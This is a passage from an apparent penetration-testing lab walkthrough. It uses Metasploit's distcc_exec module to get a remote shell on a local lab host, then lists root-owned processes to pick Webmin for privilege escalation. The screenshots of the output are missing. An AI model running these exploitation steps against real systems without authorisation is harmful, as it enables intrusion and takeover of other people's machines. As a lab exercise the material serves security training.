





4. Look for vulnerabilities DistCC
Launch msfconsole
Output:

Run the following commands within msfconsole.
Command: search distcc_exec
Output:

Command: use use exploit/unix/misc/distcc_exec
Command: show options
Output:

Command: set RHOSTS 192.168.1.130
Command: run
Output:

Now we can run commands on the open shell. like the ‘id’ in the above image.
Enumerate the machine
On the shell just opened we are going to use ps command along with grep to extract all process that can run with root privileges.
Command: ps
Output:

As you can see that the Webmin can run with root privileges, so we are going to use it to proceed further.
 Index
Index